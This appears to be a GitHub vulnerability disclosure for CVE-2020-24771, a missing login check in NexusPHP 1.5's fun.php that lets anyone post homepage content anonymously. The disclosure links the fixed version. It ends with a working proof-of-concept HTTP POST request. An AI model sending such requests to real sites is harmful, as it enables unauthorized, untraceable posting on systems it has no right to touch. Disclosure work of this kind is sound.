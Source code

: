 # CVE-2020-24771


Just have access to the site to complete the attack.
#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
#### fixed version: nexusphp v1.6.0-beta2 https://github.com/xiaomlove/nexusphp/releases
  
#### Github Repository https://github.com/xiaomlove/nexusphp

##  Vulnerability details

#### fun.php
Because the author forgot to add a login check, 
the funbox page fun.php can be accessed without logging in and can publish any content.  
Since there is no login to the site, the server records an empty publisher.
Administrators can't ban publishers either.
Funbox's content is displayed on the homepage and only 1 article can be published within 24 hours.
All users will see the published content.
#### exploit:
```
POST /fun.php?action=add HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Cookie: NO_NEED_ANY_COOKIES
Upgrade-Insecure-Requests: 1

subject=123123213213213&color=1&font=0&size=0&body=123123512323333

```
